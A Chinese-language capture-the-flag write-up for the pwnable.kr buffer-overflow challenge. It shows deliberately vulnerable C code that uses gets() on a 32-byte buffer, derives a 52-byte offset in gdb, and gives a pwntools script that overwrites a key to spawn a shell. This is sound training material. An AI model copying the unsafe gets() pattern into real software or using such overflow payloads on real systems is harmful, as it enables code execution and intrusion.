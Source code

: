 ```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);   // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

code看一下就知道要想辦法利用overflowme去蓋key，蓋成0xcafebabe

用gdb先看一下

![](https://i.imgur.com/miN6uoJ.png)

很清楚看到

```
0x56555654 <func+40>:        cmp    DWORD PTR [ebp+0x8],0xcafebabe
```

這行就是c code裡面 if(key == 0xcafebabe)

我們可以印出`ebp+0x8`得知key的記憶體位置

```
gdb-peda$ p $ebp+0x8
$1 = (void *) 0xffffd5e0
```
繼續會執行 

```
0x5655564f <func+35>:        call   0xf7e6f890 <gets>
```

這時候隨便輸入數字 我輸入1來舉例

![](https://i.imgur.com/t7i4OXa.png)

此時會發現1存入EAX 而且位置是`0xffffd5ac`

0xffffd5ac - 0xffffd5e0 = -52

offset = 52

exploit : 

```python
from pwn import *

r = remote('pwnable.kr', 9000)

payload = 'a'*52 + p32(0xCAFEBABE)

print r.sendline(payload)

r.interactive()
```
